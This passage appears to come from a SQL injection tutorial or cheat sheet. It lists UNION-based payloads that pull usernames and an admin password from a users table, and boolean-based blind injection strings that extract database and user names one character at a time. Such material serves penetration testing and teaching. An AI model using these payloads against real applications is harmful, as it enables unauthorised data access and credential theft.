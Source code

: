 #### 2. Conditional Data Extraction
```sql
-- Extract data based on conditions
' UNION SELECT 1,username,3,4 FROM users WHERE id=1-- 
' UNION SELECT 1,password,3,4 FROM users WHERE username='admin'-- 
```

## Boolean-Based Blind Injection {#boolean-based}

Boolean-based blind injection relies on the application's response to determine if injected conditions are true or false.

### Basic Boolean Testing

#### 1. True/False Conditions
```sql
-- Test basic conditions
' AND 1=1-- 
' AND 1=2-- 

-- Test database functions
' AND length(database())>0-- 
' AND length(database())>10-- 
```

#### 2. Character-by-Character Extraction
```sql
-- Extract database name character by character
' AND ascii(substring(database(),1,1))>97-- 
' AND ascii(substring(database(),1,1))>98-- 
' AND ascii(substring(database(),1,1))>99-- 

-- Extract username character by character
' AND ascii(substring((SELECT username FROM users LIMIT 1),1,1))>97-- 
```

### Advanced Boolean Techniques

#### 1. Binary Search
```sql
-- Binary search for ASCII values
' AND ascii(substring(database(),1,1))>64-- 
' AND ascii(substring(database(),1,1))>96-- 
' AND ascii(substring(database(),1,1))>112-- 
' AND ascii(substring(database(),1,1))>104-- 
```

#### 2. Conditional Error Injection
```sql
-- Use CASE statements for conditional extraction
' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)-- 
' AND (SELECT CASE WHEN (length(database())>5) THEN 1 ELSE 0 END)-- 
```
